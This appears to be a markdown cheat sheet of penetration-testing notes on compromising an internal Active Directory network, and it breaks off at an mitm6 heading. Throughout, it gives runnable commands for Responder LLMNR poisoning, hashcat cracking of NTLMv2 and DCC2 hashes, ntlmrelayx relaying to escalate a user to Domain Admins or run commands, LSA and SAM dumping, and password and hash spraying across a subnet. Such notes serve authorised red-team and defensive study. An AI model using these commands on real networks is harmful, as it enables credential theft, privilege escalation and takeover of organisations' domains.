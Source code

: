 # Typical Internal AD compromise route
## First Strike (SMB)
1. **Obtain an NTLMv2 Hash via Responder:** `sudo responder -I eth0 -dw`
	- LLMNR Poisoning via `responder` captures NTLMv2 hashes whenever any user tries accessing a machine/file/share and mistypes the IP or hostname.
		- Great to run when computers are logging in, like 8AM, or lunchtime.
		- (Reminder) Entire Hash format required: `username::DOMAIN:string:string:string`
		- Attempt cracking NTLMv2 hash: `hashcat -m 5600 luvrgirl.ntlmv2hashes /usr/share/wordlists/rockyou.txt`
	- **If the hash is not crackable, move to step 2.**

2. **Check for SMB signing requirements with [NetExec](https://www.netexec.wiki/):** `nxc smb 10.0.2.0/24 --gen-relay targets.txt`
	- **Relay to LDAP:** Auto-dump domain users, groups, and computers: `ntlmrelayx.py -t ldap://DC_IP --add-computer workstation20 --delegate-access`
		- Add user to **Domain Admins** or other privileged group: `ntlmrelayx.py -t ldap://DC_IP --escalate-user USERNAME`

3. **Dump Local Security Authority (LSA):** `nxc smb 10.0.2.9 -u luvrgirl -p Password --lsa` 
	- Attempt cracking DCC2 Hashes: `.\hashcat.exe -m 2100 hash.txt rockyou.txt -O`
		- DCC2 Hash format must be as such in file: `$DCC2$10240#administrator#c7154f935b7d1ace4c1d72bd4fb7889c`

4. **Dump Security Account Manager:** `nxc smb 10.0.2.9 -u luvrgirl -p Password1 --sam`

5. **Move Laterally:** with NetExec
	- Password Spraying: `nxc smb 10.0.2.0/24 -u luvrgirl -p 'Password1'` 
	- *Check for Local Admin Password reuse* via Hash Spraying: `nxc smb 10.0.2.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71 --local-auth`  
---
# AD Initial Attack Vectors
## Responder
`sudo responder -I eth0 -dw`
> Capture NTLMv2 hashes: WPAD rogue proxy server w/ DHCP broadcast request answering

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.
## SMB Relay via ntlmrelayx
> If you cannot crack hashes gathered w/ Responder, you can relay those hashes to attempt gaining access

**Steps**:
1. Identify hosts without SMB signing *required*: `nmap --script=smb2-security-mode.nse -p445 <IP range>` or `nxc smb 10.0.2.0/24 --gen-relay targets.txt`
>> Relayed user credentials should be admin on machine for real value
2. Ensure Responder is configured to have SMB and HTTP capturing **OFF**, this enables relaying: `sudo nano /etc/responder/Responder.conf`
3. Run responder: `sudo responder -I eth0 -dw`
4. Run ntlmrelay: `ntlmrelayx.py -tf targets.txt -smb2support`
	- Dumps SAM/Captures NTLMv1 hashes
		- Optionally, run commands directly: `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
## MITM6 - Create a shadow user
>If IPv6 is not in use in the environment, you can attack LDAP using ntlmrelayx/mitm6 combo.
